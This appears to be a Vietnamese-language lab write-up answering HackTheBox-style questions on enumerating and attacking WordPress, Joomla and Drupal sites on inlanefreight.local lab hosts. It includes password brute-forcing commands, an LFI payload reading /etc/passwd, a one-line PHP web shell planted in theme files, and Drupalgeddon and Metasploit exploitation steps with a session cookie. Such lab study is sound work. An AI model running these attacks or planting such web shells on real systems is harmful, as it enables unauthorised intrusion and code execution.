

# Application Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`
- `dev.inlanefreight.local`
- `drupal-dev.inlanefreight.local`
- `drupal-qa.inlanefreight.local`
- `drupal-acc.inlanefreight.local`
- `drupal.inlanefreight.local`
- `blog.inlanefreight.local`

+ 0  Use what you've learned from this section to generate a report with EyeWitness. What is the name of the .db file EyeWitness creates in the inlanefreight_eyewitness folder? (Format: filename.db)

+ 0  What does the header on the title page say when opening the aquatone_report.html page with a web browser? (Format: 3 words, case sensitive)

Thêm scope vào `/etc/hosts`

```zsh
cat scope_list.txt                                           
app.inlanefreight.local
dev.inlanefreight.local
drupal-dev.inlanefreight.local
drupal-qa.inlanefreight.local
drupal-acc.inlanefreight.local
drupal.inlanefreight.local
blog.inlanefreight.local
```

```zsh
echo 10.129.42.195 $(paste -sd ' ' scope_list.txt) | sudo tee -a /etc/hosts
10.129.42.195 app.inlanefreight.local dev.inlanefreight.local drupal-dev.inlanefreight.local drupal-qa.inlanefreight.local drupal-acc.inlanefreight.local drupal.inlanefreight.local blog.inlanefreight.local
```

Quét scope với nmap

```zsh
mkdir nmap; cd nmap
sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL ../scope_list.txt -vv
```

Chụp màn hình với `eyewitness`

```zsh
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```

Như vậy eyewitness sẽ tạo một file `.db` là `ew.db`



Chạy `aquatone`

```zsh
cat web_discovery.xml | /opt/aquatone -nmap
```

`Pages by Similarity`


# WordPress - Discovery & Enumeration

#### Questions
+ 0  Enumerate the host and find a flag.txt flag in an accessible directory.

```zsh
wpscan --url http://blog.inlanefreight.local -e --api-token Tg......
```

```zsh
[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
```


+ 0  Perform manual enumeration to discover another installed plugin. Submit the plugin name as the answer (3 words).

Truy cập vào bài viết đầu tiên: `http://blog.inlanefreight.local/?p=1`

Xem nguồn trang và thấy có plugin sau:


+ 0  Find the version number of this plugin. (i.e., 4.5.2)

Truy cập vào: http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt


# Attacking WordPress

#### Questions
vHosts needed for these questions:

- `blog.inlanefreight.local`

+ 0  Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?

```zsh
[i] User(s) Identified:

[+] by:
                                                                        admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

+ 0  Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.

```zsh
wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

+ 0  Using the methods shown in this section, find another system user whose login shell is set to /bin/bash.


Payload:

```url
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


```zsh
webadmin:x:1001:1001::/home/webadmin:/bin/bash
mrb3n:x:1002:1002::/home/mrb3n:/bin/sh
```

+ 0  Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.

Đăng nhập với người dùng `douge` tại `/wp-login.php`

Truy cập vào `Theme Editor`


Chọn theme khác có trang 404.php, ở đây tôi dùng `Twenty Nineteen`


Thêm phần này vào đầu file:

```php
system($_GET['cmd']);
```


Sau đó payload sẽ là:

```url
view-source:http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat%20../../../flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```

# Joomla - Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`

+ 0  Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)

```zsh
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml                                                    
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>3.10.0</version>
        <creationDate>August 2021</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
```

+ 0  Find the password for the admin user on http://app.inlanefreight.local

```zsh
sudo python3 /opt/joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 admin:turnkey
```

# Attacking Joomla

#### Questions
vHosts needed for these questions:

- `dev.inlanefreight.local`

+ 0  Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

Đăng nhập với `admin:admin`


Truy cập vào `http://dev.inlanefreight.local/administrator/index.php?option=com_plugins&view=plugins`

Disable tiện ích này đi:


Chọn `Templates` -> `Templates` -> Template đang dùng (Được đánh dấu sao ở mục Style)


Tôi sẽ sửa file `error.php`


```zsh
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?e3c230597dc6f83fd9b03394c053c91b=cat%20../../flag_6470e394cbf6dab6a91682cc8585059b.txt 
j00mla_c0re_d1rtrav3rsal!
```

# Drupal - Discovery & Enumeration
#### Questions
vHosts needed for these questions:

- `drupal.inlanefreight.local`
- `drupal-qa.inlanefreight.local`

+ 0  Identify the Drupal version number in use on http://drupal-qa.inlanefreight.local

Truy cập vào `http://drupal-qa.inlanefreight.local/CHANGELOG.txt`


# Attacking Drupal

#### Questions
vHosts needed for these questions:

- `drupal-qa.inlanefreight.local`
- `drupal-dev.inlanefreight.local`

+ 0  Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory.

Chúng ta biết được rằng phiên bản này là 7.30, một phiên bản drupal khá cũ, vậy hãy thử khai thác RCE bằng nhiều cách.
### Leveraging the PHP Filter Module

Đăng nhập với thông tin xác thực: `admin:admin`

Tại `modules`, kiểm tra xem liệu `PHP filter` đã được bật hay chưa, nếu chưa hãy enable module này và save configuration.


Chọn `Add content` -> `Basic page`


Tạo trang mới có chứa payload:


Và chúng ta có RCE:


Lụm cái flag:

```
http://drupal-qa.inlanefreight.local/node/3?93280687b2335b45acb180ce9340cb2f=cat%20../drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
```

### Uploading a Backdoored Module

Chúng ta sẽ upload một module độc hại nhằm thực thi mã từ xa.

Trước hết tải xuống một module từ trang chủ:

```zsh
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Giải nén ra và đổi tên:

```zsh
tar xvf <filename>

mv <foldername> capcha
```


Tạo file payload `shell.php`


Tạo file `.htaccess`

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

Tiến hành nén lại thành module

```zsh
mv .htaccess shell.php capcha

tar cvf capcha.tar.gz capcha
```


Do phiên bản của `drupal-qa.inlanefreight.local` không có mục uploads module hoặc tôi không tìm thấy :v nên tôi sẽ thử với `drupal-dev` cũng không có luôn :v

#### Drupalgeddon

Tạo tài khoản với quyền admin:

```zsh
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u PuddingSudo -p password
```


#### Drupalgeddon2


Chúng ta upload một file .php


#### Drupalgeddon3

Tải xuống exploit từ exploitdb, di chuyển nó vào modules của metasploit:

```zsh
sudo mv 44557.rb /usr/share/metasploit-framework/modules/exploits/multi/http/drupal_drupageddon3.rb
```

Reload lại modules

```zsh
sudo msfconsole -q

msf6 > reload_all
```

Tiến hành khai thác:

Drupal_SESSION sẽ là cookie của chúng ta khi đăng nhập với quyền admin


```zsh
use exploit/multi/http/drupal_drupageddon3

msf6 exploit(multi/http/drupal_drupageddon3) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.82.231
msf6 exploit(multi/http/drupal_drupageddon3) > set vhost drupal-qa.inlanefreight.local
vhost => drupal-dev.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_node 1
drupal_node => 1
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo
drupal_session => SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo

```

